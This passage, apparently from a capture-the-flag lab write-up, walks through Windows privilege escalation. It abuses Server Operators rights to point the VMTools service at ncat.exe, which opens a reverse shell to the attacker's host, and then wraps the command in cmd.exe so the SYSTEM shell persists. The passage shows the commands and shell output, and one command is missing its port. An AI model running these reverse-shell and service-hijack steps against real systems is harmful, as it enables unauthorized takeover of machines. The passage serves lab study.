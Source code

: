 
Since, svc-printer is a member of server operator group. we can change the binary path of service, replace it with a netcat binary and restart the service to get the reverse shell.
First we will upload ncat.exe
```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> upload ncat.exe
Info: Upload successful!
```
We will now repalce the binary path of `VMTools service` with our `ncat.exe`
```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> sc.exe config VMTools binPath="C:\Users\svc-printer\Desktop\ncat.exe -e cmd.exe 10.10.14.11 4444"
[SC] ChangeServiceConfig SUCCESS
```
once we open netcat listener on our machine and restart the service of VMTools we get shell as a `Administrator`.
```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> sc.exe start VMTools
```

```
$sudo nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.11.108] 60966
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
we have got the shell as administrator but after 30 seconds, the service times out, and returns an error message and the shell terminates.

### STABLE SHELL AS ADMINISTRATOR

> If we have the service binary set to cmd.exe and have it start ncat.exe,
the ncat.exe process will continue running even after cmd.exe is killed.
This is because when cmd.exe starts ncat.exe, it creates a new process that is 
separate from the cmd.exe process. When the service fails to start in a service way,
the cmd.exe process is killed but the ncat.exe process is still running as it was started by cmd.exe process, it is not dependent on it.

```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> sc.exe config VMTools binPath="C:\windows\system32\cmd.exe /c C:\Users\svc-printer\Desktop\ncat.exe -e cmd 10.10.14.11
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> sc stop VMTools
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> sc.exe start VMTools
```

```
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.11.108] 61106
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
